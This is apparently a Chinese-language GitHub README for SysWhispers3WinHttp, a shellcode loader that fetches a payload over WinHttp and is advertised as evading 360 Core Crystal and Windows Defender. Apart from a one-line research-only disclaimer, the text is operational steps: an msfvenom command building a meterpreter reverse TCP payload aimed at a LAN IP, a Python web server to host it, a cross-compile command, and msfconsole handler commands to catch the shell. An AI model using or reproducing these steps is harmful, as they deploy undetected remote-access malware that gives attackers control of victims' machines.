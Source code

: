 # SysWhispers3WinHttp
SysWhispers3WinHttp 基于SysWhispers3增添WinHttp分离加载，可免杀360核晶与Defender。

## 0x01 免责声明：

该项目仅供安全研究使用，禁止使用该项目进行违法操作，否则由使用者承担全部法律及连带责任。

## 0x02 使用：

```
// 1. 使用msfvenom生成shellcode（或使用CobaltStrike生成Stageless之Shellcode）
msfvenom -p windows/meterpreter_reverse_tcp lhost=192.168.1.104 lport=4444 -f raw -o beacon.bin

// 2. 使用python3开启Web服务（或使用CobaltStrike之HostFile功能）
python3 -m http.server

// 3. 修改SysWhispers3WinHttp.c第40行IP地址并使用Linux32位GCC进行交叉编译
i686-w64-mingw32-gcc -o SysWhispers3WinHttp.exe syscalls.c SysWhispers3WinHttp.c -masm=intel -fpermissive -w -s -lwinhttp
```

## 0x03 演示：

```
msfconsole
msf6 > use exploit/multi/handler 
msf6 exploit(multi/handler) > set payload windows/meterpreter_reverse_tcp
msf6 exploit(multi/handler) > set lhost 0.0.0.0
msf6 exploit(multi/handler) > set lport 4444
msf6 exploit(multi/handler) > run
```

360核晶截图（2023/04/23更新）
![360](https://user-images.githubusercontent.com/128464183/233817661-76d09fef-7817-4e5a-a236-871c4a300471.PNG)

Defender截图
![WDdemo](https://user-images.githubusercontent.com/128464183/227820977-8ae3dd14-76f4-4076-85a4-91ff2702ec61.PNG)

微步云沙箱截图
![threatbook](https://user-images.githubusercontent.com/128464183/233817665-3ff36fed-ec4e-442f-b837-18247edff7ee.PNG)

## 0x04 参考：
https://github.com/klezVirus/SysWhispers3

https://learn.microsoft.com/zh-cn/windows/win32/api/winhttp/nf-winhttp-winhttpconnect
